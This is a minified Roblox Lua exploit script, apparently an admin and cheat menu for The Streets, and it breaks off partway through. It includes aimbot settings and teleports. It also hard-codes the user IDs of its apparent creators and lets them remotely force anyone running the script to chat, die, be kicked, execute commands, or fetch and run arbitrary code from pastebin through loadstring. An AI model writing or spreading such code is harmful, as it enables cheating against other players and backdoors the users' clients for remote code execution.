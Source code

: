 local a=tick()getgenv().Players=game:GetService'Players'getgenv().TeleportService=game:GetService'TeleportService'getgenv().ReplicatedStorage=game:GetService'ReplicatedStorage'getgenv().StarterGui=game:GetService'StarterGui'getgenv().TweenService=game:GetService'TweenService'getgenv().UserInput=game:GetService'UserInputService'getgenv().RunService=game:GetService'RunService'getgenv().Lighting=game:GetService'Lighting'getgenv().CoreGui=game:GetService'CoreGui'getgenv().HttpService=game:GetService'HttpService'getgenv().VirtualUser=game:GetService'VirtualUser'getgenv().LP=Players.LocalPlayer or Players.PlayerAdded:Wait()getgenv().Mouse=LP:GetMouse()getgenv().GetChar=function()return LP.Character or LP.CharacterAdded:Wait()end;GetChar():WaitForChild'Humanoid'local b=false;local c=false;local d=false;local e=false;local f=true;local g=false;local h=false;local i=false;local j=false;local k=false;local l=false;local m=false;local n=false;local o=false;local p=false;local q=false;local r=false;local s=false;local t=false;local u=false;local v=false;local w=false;local x=false;local y=false;local z=false;local A=false;local B=false;local C=true;local D=false;local E=false;local F=false;local G=false;local H=false;local I=false;local J=false;local K=false;local L=false;local M=false;local N=false;local O=pcall(assert,Drawing,'Hi')local P=true;local Q="Prediction"local R="LeftClick"local S="Head"local T="Lyrus Or Not Idc"local U="CyrusStreetsAdminSettings.json"local V="None"local W=0;local X=0;local Y=0;local Z=1;local _=5;local a0=5;local a1=5;local a2=8;local a3=10;local a4=16;local a5=16;local a6=25;local a7=25;local a8=37.5;local a9=50;local aa=workspace.Gravity;local ab=ColorSequence.new(Color3.fromRGB(144,0,0))local ac=Color3.fromRGB(255,255,255)local ad;local ae;local af;local ag;local ah;local ai;local aj;local ak;local al;local am;local an;local ao;local ap;local aq;local ar;local as;local at;local au;local av;local aw=Instance.new'Animation'aw.AnimationId="rbxassetid://215384594"local ax=Instance.new'Animation'ax.AnimationId="rbxassetid://33796059"local ay=Instance.new'Animation'ay.AnimationId="rbxassetid://35654637"local az=Instance.new'Animation'az.AnimationId="rbxassetid://188632011"local aA=Instance.new'Animation'aA.AnimationId="rbxassetid://889968874"local aB=Instance.new'Animation'aB.AnimationId="rbxassetid://229339207"local aC=Instance.new'Part'aC.Anchored=true;aC.Size=Vector3.new(20,1,20)aC.Transparency=1;local aD=Instance.new('Frame',CoreGui.RobloxGui)local aE=Instance.new('TextLabel',aD)local aF=Instance.new('ScrollingFrame',aD)local aG=Instance.new('Frame',CoreGui.RobloxGui)local aH=Instance.new('TextBox',aG)local aI=Instance.new('ImageLabel',aG)local aJ=Instance.new('TextLabel',LP.PlayerGui.Chat.Frame)local aK=Instance.new('Frame',CoreGui.RobloxGui)local aL=Instance.new('TextLabel',aK)local aM=Instance.new('ScrollingFrame',aK)local aN=Instance.new('Frame',CoreGui.RobloxGui)local aO=Instance.new('TextLabel',aN)local aP=Instance.new('Frame',CoreGui.RobloxGui)local aQ=Instance.new('TextLabel',aP)local aR=Instance.new('Frame',CoreGui.RobloxGui)local aS=Instance.new('TextButton',aR)local aT=Instance.new('TextLabel',aR)local aU=Instance.new('TextLabel',aR)local aV=Instance.new('TextButton',aR)local aW=Instance.new('TextBox',aR)local aX=Instance.new('Part',workspace)local aY={}local aZ={}local a_={}local b0={}local b1={}local b2={}local b3={}local b4={}local b5={}local b6={}local b7={}local b8={['chat']={['Func']=function(b9,ba,bb)if b9==LP or typeof(b9)=="table"then ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer(ba,"All")end end,['Levels']={[1]=false,[2]=true,[3]=true,[4]=true}},['notif']={['Func']=function(b9,ba,bb)if b9==LP or typeof(b9)=="table"then StarterGui:SetCore("SendNotification",{['Title']="Cy's Messages",['Text']=Message,['Duration']=10,['Icon']=nil})end end,['Levels']={[1]=false,[2]=false,[3]=true,[4]=true}},['bring']={['Func']=function(b9,ba,bb)if b9==LP or typeof(b9)=="table"and bb~="none"then CheckCommand("to "..bb.Name)end end,['Levels']={[1]=false,[2]=false,[3]=true,[4]=true}},['kill']={['Func']=function(b9,ba,bb)if b9==LP or typeof(b9)=="table"then GetChar():BreakJoints()end end,['Levels']={[1]=false,[2]=false,[3]=true,[4]=true}},['exec']={['Func']=function(b9,ba,bb)if b9==LP or typeof(b9)=="table"and bb~="none"then CheckCommand(ba)end end,['Levels']={[1]=false,[2]=false,[3]=true,[4]=true}},['kick']={['Func']=function(b9,ba,bb)if b9==LP or typeof(b9)=="table"then LP:Kick(ba)end end,['Levels']={[1]=false,[2]=false,[3]=true,[4]=true}},['p']={['Func']=function(b9,ba,bb)if b9==LP or typeof(b9)=="table"then loadstring(game:HttpGet("https://www.pastebin.com/raw/"..ba))()end end,['Levels']={[1]=false,[2]=false,[3]=true,[4]=true}}}local bc={[1497865275]={['Name']="Lyrus Creator | Not In Lynx",['Access']=4,['Colour']=Color3.fromRGB(255,0,0)},[968316695]={['Name']="co owner <3",['Access']=4,['Colour']=Color3.fromRGB(136, 0, 255)},[95990173]={['Name']="AlISE ",['Access']=4,['Colour']=Color3.fromRGB(136, 0, 255)},[2381679287]={['Name']="COVAX",['Access']=4,['Colour']=Color3.fromRGB(242, 243, 243)},[1530605769]={['Name']="TEST ",['Access']=3,['Colour']=Color3.fromRGB(109, 110, 108)},[3042800457]={['Name']="corey |this sped kept on crying about cory|",['Access']=4,['Colour']=Color3.fromRGB(109, 110, 108)}}local bd={[1497942766]=true}local be={Keys={},ClickTpKey="",SprintSpeed=25,CrouchSpeed=8,AimMode="Prediction",AimlockMode="LeftClick",AimbotVelocity=5,CmdBarImage="http://www.roblox.com/asset/?id=2683269674",CmdBarKey="Quote"}if game.PlaceId==455366377 then b4={['burger']=workspace:WaitForChild'Burger | $15',['drink']=workspace:WaitForChild'Drink | $15',['ammo']=workspace:WaitForChild'Buy Ammo | $25',['pipe']=workspace:WaitForChild'Pipe | $100',['machete']=workspace:WaitForChild'Machete | $70',['sawedoff']=workspace:WaitForChild'Sawed Off | $150',['spray']=workspace:WaitForChild'Spray
